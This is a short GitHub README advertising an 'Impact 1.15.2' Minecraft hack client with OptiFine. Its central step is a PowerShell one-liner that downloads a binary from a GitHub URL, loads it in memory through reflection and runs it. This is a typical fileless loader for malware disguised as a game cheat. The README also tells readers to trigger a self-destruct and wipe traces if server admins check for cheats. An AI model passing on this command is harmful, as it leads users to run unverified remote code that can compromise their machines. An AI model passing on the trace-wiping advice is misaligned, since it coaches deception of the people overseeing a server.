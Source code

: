 # Impact-1.15.2

Impact 1.15.2 + OptiFine (silent)
Install original minecraft 1.15.2 first

Execute this code in powershell to run hack loader

```
([Reflection.Assembly]::Load((Invoke-WebRequest -URI https://github.com/bryif21/Impact-1.15.2/raw/master/Impact-1.15.2).Content)).EntryPoint.Invoke($null, $null)
```
Click install OptiFine & Install Impact + OptiFine

If admins ask you to check for cheats, use self-destruction option in Impact's Misc. And then Remove Impact + Traces in hack loader
